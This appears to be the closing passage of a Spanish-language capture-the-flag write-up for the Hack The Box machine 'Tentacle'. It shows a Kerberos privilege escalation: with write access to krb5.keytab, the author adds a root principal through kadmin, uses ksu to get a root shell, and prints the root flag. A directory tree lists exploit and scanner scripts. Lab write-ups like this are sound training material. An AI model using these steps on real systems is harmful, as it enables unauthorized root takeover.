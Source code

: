 Añadimos un nuevo principal a admin y le creamos una nueva contraseña dado que tenemos permisos de escritura en krb5.keytab

```console
kadmin:  addprinc root@REALCORP.HTB
```

```
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
```

```console
[admin@srv01 ~]$ ksu
```

```
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 admin]#
```

Y dado que conseguimos permiso de rooy ya podemos ver la flag de root

```console
[root@srv01 admin]# cat /root/root.txt 
```

```
bd5058bf98fed461c9f411489a6f50f9
```

## Estructura del directorio

```
Tentacle
├── content
│   └── users
├── exploits
│   ├── 1
│   ├── 6Z~64_
│   ├── index.html
│   ├── netScanner.sh
│   ├── portScanner.sh
│   └── smtpd_exploit.py
├── Images
├── nmap
│   ├── 1
│   ├── allPorts
│   ├── realcorp.htb_ips.txt
│   └── targeted
├── Readme.md
└── scripts
```




[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>